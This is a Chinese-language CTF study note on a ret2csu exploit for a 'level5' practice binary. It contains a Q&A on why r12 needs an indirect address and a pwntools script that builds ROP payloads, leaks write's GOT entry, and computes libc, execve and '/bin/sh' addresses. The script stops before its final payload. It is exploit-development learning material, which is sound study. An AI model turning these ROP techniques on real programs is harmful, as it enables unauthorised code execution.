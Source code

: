


### Q&A

Q1：网上的blog都是三次payload，能不能两次来实现？既然第一次payload以及得到了lic基地址，就可以算出execve 和 libc中的'/bin/sh'字符串的地址；然后把第三次的payload发出去；这样就只需要两次？这个思路 我先实现了一下啊 (Payload见下面代码).

A1：应该是不行的，ret2csu劫持程序控制流利用的是call    qword ptr 【r12+rbx*8】，注意这个中括号是间接寻址，也就是先将r12地址的值取出来，再进行跳转。如果直接将r12设为system的真实地址的话，就会将system地址存的值给取出来，然后再跳转到这个值的地址上去，而system地址存放的应该是函数的第一条汇编指令，就是一个无效的地址，就会出错了。如果将system地址写入bss段，再把r12设置为该bss段的地址，那么就是从bss地址中取出system函数的地址，再跳转到system函数处。

----->同时需要区分 **我们得到的`read_got `和` write_got_addr`都是一个got表的一个地址，改地址中存储着相对应的函数`wirte`和`read`的libc的地址，而通过libc计算得到的直接就是libc的地址；前者相当于对该值的指针，后者是值**

**注：以上解答咨询了up主**

```python
from pwn import *

context.log_level = "debug"
context(arch='amd64',os = "linux")
io = process("./level5")
e = ELF("./level5")

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]

read_got = e.got["read"]
main_addr = e.symbols["main"]
bss_addr = e.bss()

gadget1 = 0x400606
gadget2 = 0x4005F0

def csu(rbx,rbp,r12,r13,r14,r15,ret):
    payload = b'A'*136 + p64(gadget1) #padding + fake_ebp + ret
    payload +=p64(0)  # 填充rsp，给寄存器赋值是从rsp+8开始
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    #rbx should be 0
    #rbp shuold be 1
    #r12 should be the founction we want to call
    #rdi=edi=r13d
    #rsi=r14
    #rdx=r15
    payload +=p64(gadget2) #ret
    payload +=0x38*b'A' #padding
    payload +=p64(ret) #ret

    return payload


io.recvuntil("Hello, World\n")
payload1 = csu(0,1,write_got_addr,1,write_got_addr,8,main_addr) #leak write_addr
io.sendline(payload1)
log.success("========== send payload1 ===========")

write_addr = u64(io.recv(8))  #泄露write函数Got表地址，从而得到基地址
log.success("write_addr:{}".format(hex(write_addr)))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = write_addr - libc.symbols["write"]
execve_addr = libc_base + libc.symbols["execve"]
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))   #获取'/bin/sh'字符串地址；根据ret2libc可知libc中存在该字符串
log.success("execve_addr:{}".format(hex(execve_addr)))

io.recvuntil("Hello, World\n")
```